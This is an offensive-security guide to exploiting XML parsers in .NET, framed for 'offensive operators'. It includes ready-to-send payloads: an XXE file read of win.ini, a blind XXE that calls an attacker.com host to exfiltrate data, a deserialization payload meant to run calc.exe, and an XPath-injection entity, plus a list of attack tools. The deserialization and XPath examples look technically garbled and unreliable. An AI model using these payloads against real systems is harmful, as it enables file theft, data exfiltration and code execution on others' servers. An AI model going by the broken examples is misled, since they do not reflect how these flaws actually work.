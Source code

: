 ```yaml
---
title: .NET XML Parser Exploitation Guide
description: Explore XXE and deserialization exploits in .NET XML parsers for data
  exfiltration and command execution.
keywords:
- .NET XML parser
- XXE exploitation
- .NET deserialization
- XML vulnerabilities
- XML External Entity
- .NET XPath Injection
- XML security .NET
---
```


# .NET XML Parser Exploitation

## Context

This article aims to provide offensive operators with the knowledge and skills needed to exploit XML External Entity (XXE) and deserialization vulnerabilities within .NET XML parsers. These exploits can lead to data exfiltration, command execution, and privilege escalation. Readers are expected to be familiar with XML structures, XML parsing mechanisms, and XXE vulnerabilities.

## Theory

### Core .NET XML Parsers and Their Security Models

In the .NET framework, the primary classes involved in XML parsing include `XmlDocument`, `XmlReader`, `XPathDocument`, and `XmlTextReader`. These parsers often have default settings that enable DTD (Document Type Definition) processing, potentially leading to XXE vulnerabilities if not properly configured. Misconfigurations or insecure defaults can result in severe security threats, such as XXE, Server-Side Request Forgery (SSRF), and the disclosure of sensitive files or even remote code execution.

### XXE Attack Vectors in .NET Parsers

A common attack vector for XXE involves an attacker submitting a crafted XML document containing an external entity. When the parser resolves this entity, it can lead to the exposure of sensitive data or the interaction with internal network resources. By manipulating entities, attackers can bypass naive input filtering, expanding beyond simple content restrictions to more complex payloads and exploits.

### Deserialization Flaws in .NET XML Processing

Unsafe deserialization of XML data can pose significant risks, allowing attackers to instantiate arbitrary objects or execute code. In .NET applications, `System.Xml.Serialization.XmlSerializer` and `DataContractSerializer` are frequently targeted by attackers for deserialization vulnerabilities. When these serializers process attacker-controlled XML, they can unknowingly execute harmful instructions embedded within the payload.

### XPath Injection via XXE in .NET

XPath Injection is another vector where XXE can be used to manipulate XPath queries. This involves injecting entities that alter the logic of XPath queries, potentially enabling unauthorized data access or logical manipulation. This can be especially dangerous in applications that rely heavily on XML data for making authorization and access decisions.

### Attacker Workflow: .NET XML Parser Exploitation

Below is a flowchart illustrating the typical workflow an attacker might follow when exploiting .NET XML parsers:

```mermaid
flowchart TD
    A[Identify XML Input] --> B{Parser Type?}
    B -->|XmlDocument| C[Craft XXE Payload]
    B -->|XmlReader| C
    B -->|XPathDocument| C
    B -->|XmlTextReader| C
    C --> D[Submit Malicious XML]
    D --> E{Response?}
    E -->|Sensitive Data| F[Exfiltrate]
    E -->|Error/Blind| G[Infer via Timing/Out-of-Band]
```

## Practice

### Exploiting XXE in XmlDocument

- **Payload:**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">]>
    <root>&xxe;</root>
    ```

- **Explanation:** This XML payload attempts to retrieve the contents of a local file (`win.ini`) by defining an external entity (`xxe`).
- **Execution:** Send this payload to the target endpoint that accepts XML input, using an HTTP POST or a relevant API call.
- **Outcome:** If successful, the contents of `win.ini` will be included in the HTTP response, confirming the exploit.

### Blind XXE with Out-of-Band Exfiltration (XmlReader/XmlTextReader)

- **Payload:**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY % xxe SYSTEM "http://attacker.com/xxe"> %xxe;]>
    <root/>
    ```

- **Explanation:** This payload uses a parameter entity for blind XXE attacks, triggering an outbound HTTP request to an attacker-controlled server.
- **Execution:** Monitor the attacker-controlled server for incoming requests to confirm the XXE vulnerability through DNS or HTTP callbacks.
- **Outcome:** Successful execution results in data exfiltration to the attacker's server.

### Exploiting .NET XML Deserialization

- **Payload:**

    ```xml
    <ObjectData><KnownType><string>calc.exe</string></KnownType></ObjectData>
    ```

- **Explanation:** This payload targets XML deserialization vulnerabilities to trigger execution of a command (`calc.exe`) if deserialization is unsafe.
- **Execution:** Submit the payload to any endpoint utilizing `XmlSerializer` or `DataContractSerializer`.
- **Outcome:** If unsafe deserialization occurs, the payload executes arbitrary code, such as launching a calculator application.

### XPath Injection via XXE

- **Payload:**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY xxe "' or '1'='1"]>
    <root><user>&xxe;</user></root>
    ```

- **Explanation:** This payload alters an XPath query, using a boolean logic flaw to potentially bypass authentication or extract unauthorized data.
- **Execution:** Observe the application response for signs of unauthorized data access or logical manipulation.
- **Outcome:** Successful payload execution indicates potential flaws in input validation and allows an attacker to manipulate query logic.

## Tools

- **Burp Suite**
- **XXEinjector**
- **Responder**
- **OOB Server (e.g., Interactsh)**

This concludes the detailed content on .NET XML Parser Exploitation, providing a step-by-step guide and theory necessary for exploiting known vulnerabilities within these systems.